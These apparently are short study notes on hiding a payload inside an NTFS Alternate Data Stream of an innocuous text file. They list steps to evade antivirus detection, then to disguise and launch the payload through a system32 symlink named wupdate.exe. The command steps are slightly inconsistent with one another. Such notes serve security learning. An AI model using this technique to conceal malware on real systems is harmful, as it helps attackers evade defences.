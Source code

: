 


Alternate Data Streams
=
Hiding malicious payload within a legitimate file of file system

NTFS file attribute (new technology file system)

any file created on NTFS formatted drive will have:
- data stream - default stream that contains the data of file
- resource stream - contains meta data of the file

ADS can be used to hide malicious code or executables in resource stream to evade detection from AVs

Method
=
1. `payload.exe > windowslog.txt:winpeas.exe` - hides payload into windowslog as secret file named winpeas.exe
2. payload.exe can then be deleted as it is now hidden in windowslog
3. `cd windows\system32`
4. `mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.txt`
5. `wupdate` 